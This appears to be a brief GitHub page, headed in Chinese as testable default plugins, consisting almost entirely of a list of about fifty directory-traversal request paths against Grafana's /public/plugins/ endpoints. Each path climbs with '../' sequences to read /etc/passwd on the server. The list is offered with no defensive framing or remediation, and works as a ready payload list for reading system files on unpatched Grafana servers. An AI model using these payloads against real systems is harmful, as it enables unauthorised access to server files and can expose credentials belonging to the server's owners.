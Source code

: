 ![image](https://user-images.githubusercontent.com/84888757/162635695-1900cffb-5f67-44a2-afeb-5e41c3ffd856.png)


- 默认安装的插件（可测试）
```
/public/plugins/grafana-clock-panel/../../../../../../etc/passwd
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```

